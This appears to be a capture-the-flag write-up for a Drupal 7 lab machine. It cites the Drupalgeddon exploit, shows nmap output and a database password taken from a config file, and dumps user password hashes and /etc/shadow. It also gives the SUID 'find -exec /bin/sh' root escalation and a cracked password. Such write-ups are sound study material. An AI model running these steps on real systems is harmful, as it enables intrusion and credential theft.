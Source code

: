 ## Main exploits

- CVE-2014-3704 https://www.exploit-db.com/exploits/34993
- PHP reverse shell via Structure -> Views -> Import -> Paste code
- Suid bit on /bin/find

## Port enum
```
❯ sudo nmap -sV -sC -O -T4 -n -Pn -oA fastscan 192.168.0.119
[sudo] password for volt: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 15:33 CEST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 15:34 (0:00:12 remaining)
Nmap scan report for 192.168.0.119
Host is up (0.00071s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34457/udp   status
|   100024  1          37812/tcp6  status
|   100024  1          48303/tcp   status
|_  100024  1          55158/udp6  status
MAC Address: 08:00:27:F9:A8:A8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

/robots.txt and /.gitignore can be useful source of information, like for example /xmlrpc.php which can be a major weakness

Contents of /var/www/sites/default/settings.php:
```
database = drupaldb
username = dbuser
password = R0ck3t
driver = mysql
```

Entering mysql -u (user) -p (database)
```
FROM users
SELECT name, pass;

admin	$S$Dx4z79qDXKpaQSl2aYLrym9PJMDpGhM5XdoS105YvAjimmLprDY0 - admin
Fred	$S$DOoqDF0EUxe6rsF8aITPZctZ6KsVKtOcw3e1sjuEAmbo25Ofdxm9 - fred
volt	$S$DWyjtA4pwMorh00PT5uX9KiVo299ENGVYUaVpOMMkexKlszU5A5v
user	$S$DvagVTOxcHgKK.90HX/VxZhjF05KH1ffPCAajMjC4pnQ39ZeYvUm
asdf	$S$Df9LAWEgFObyWr1.KLxvfNQCy/b1FFDQyYpstS0iQJ0uU4xdFfNI
```

SUID search:
```
find . -perm /4000
```

find has suid, escalation:
```
touch raj
find raj -exec "/bin/sh" \;
```

After getting root /etc/shadow:
```
root:$6$rhe3rFqk$NwHzwJ4H7abOFOM67.Avwl3j8c05rDVPqTIvWg8k3yWe99pivz/96.K7IqPlbBCmzpokVmn13ZhVyQGrQ4phd/
flag4:$6$Nk47pS8q$vTXHYXBFqOoZERNGFThbnZfi5LN0ucGZe05VMtMuIFyqYzY/eVbPNMZ7lpfRVc0BYrQ0brAhJoEzoEWCKxVW80
```

Output from JtR for flag4:orange